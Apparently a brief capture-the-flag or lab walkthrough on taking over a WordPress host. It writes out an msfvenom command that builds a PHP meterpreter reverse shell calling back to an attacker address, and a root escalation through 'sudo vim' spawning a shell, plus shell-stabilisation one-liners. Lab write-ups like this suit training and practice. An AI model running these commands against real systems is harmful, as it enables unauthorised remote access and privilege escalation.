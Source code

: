1. Create meterpreter shell
here we use a meterpreter shell to have something stable in time and with already error message without having to redirect at each command
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.193.140 LPORT=1234 -f raw -o shell.php
2. Upload on wordpress php meterpeter reverse shell
3. Open msfconsole and start exploit/multi/handler
4. Run php shell
Got a reverse shell

5. Update path to
`export PATH=$PATH:/run/wrappers/bin:/etc/profiles/per-user/web/bin:/run/current-system/sw/bin`
  1. sudo
  2. user packages (vim)
  3. system packages

6. See that `sudo -l` give us vim
7. sudo vim -c ':!/bin/sh'
8. stabilize with 
- python3 -c 'import pty; pty.spawn("bash")'
- export TERM=xterm
